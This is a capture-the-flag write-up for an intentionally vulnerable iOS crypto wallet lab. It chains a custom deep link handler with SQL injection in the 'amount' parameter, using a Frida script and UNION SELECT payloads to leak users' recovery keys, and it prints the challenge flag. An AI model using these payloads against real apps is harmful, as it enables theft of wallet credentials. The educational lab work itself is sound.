This is my writeup for the **Flipcoin Wallet** iOS challenge by [Mobile Hacking Labs](https://www.mobilehackinglab.com/) - a two-part challenge involving deep link abuse and SQL injection that chains together really nicely.

---

## Understanding the Challenge

The app is a crypto banking app with **Flipcoin** as its currency. Features:
- Receive coins via QR code
- Send coins to other accounts
- Transaction history
- Crypto news tab

The challenge description mentions **SQLi** and **deeplink** exploitation. The goal is to extract **recovery keys** of other users.

---

## Analyzing Info.plist

Checking the URL scheme first:

```
"CFBundleURLTypes" => [
  0 => {
    "CFBundleTypeRole" => "Editor"
    "CFBundleURLName" => "com.mobilehackinglab.flipcoinwallet"
    "CFBundleURLSchemes" => [
      0 => "flipcoin"
    ]
  }
```

The app registers the **`flipcoin://`** scheme for deep link handling.

---

## Analyzing the Binary

Using r2 to find the deep link handler:



After decompiling:



Found `SceneDelegate.scene(_:openURLContexts:)`. The decompiled logic:
- Performs checks for `"amount"` or `"testnet"` parameters
- Calls `DatabaseHelper` with fragments of SQL visible:
  ```sql
  WHERE amount > ... AND currency='flipcoin' LIMIT 1
  ```

---

## Finding the SQLi

### Analyzing the QR Code

Scanning the QR code generates:
```
http://flipcoin//0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1
```

Testing the `testnet` parameter with a Frida script to trigger the deep link:

```js
function openURL(url) {
  var workspace = ObjC.classes.LSApplicationWorkspace.defaultWorkspace();
  return workspace.openSensitiveURL_withOptions_(
    ObjC.classes.NSURL.URLWithString_(url),
    null
  );
}
```



Checking in Burp:



On device:



One parameter reflects our address, amount, and id.

### Hooking sqlite3

Used the [ios-sqlite3 codeshare script](https://codeshare.frida.re/@karim-moftah/ios-sqlite3) to hook queries:



Found the flag but that's not the intended path - we need SQLi to leak it from another user's data. The prepared statement shows `amount` is unsanitized.

Playing with the amount parameter:

```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20AND%20id=2;&testnet=http://192.168.18.58")
```



Successfully changed the `id` - the app now shows `bitcoin` instead of `flipcoin` because we terminated the statement early.


---

## UNION Injection - Leaking the Recovery Key

The table has 5 columns:



Since the address is reflected in the UI, the 2nd column of a UNION is reflected. Verifying:

```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'A','B','C','D','E';&testnet=http://192.168.18.58")
```



Finding the table name with Objection:




Table name: `wallet`

Final payload:

```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'A',(SELECT%20recovery_key%20FROM%20wallet),'C','D','E';&testnet=http://192.168.18.58")
```



**FLAG: `FLAG{fl1p_d4_c01nz}`**

---

Nice challenge overall. The root flaw is client-side trust - the deep link handler passes `amount` directly into SQL without sanitization, and the backend Firestore rules trusted whatever query the client sent (missing server-side authorization).
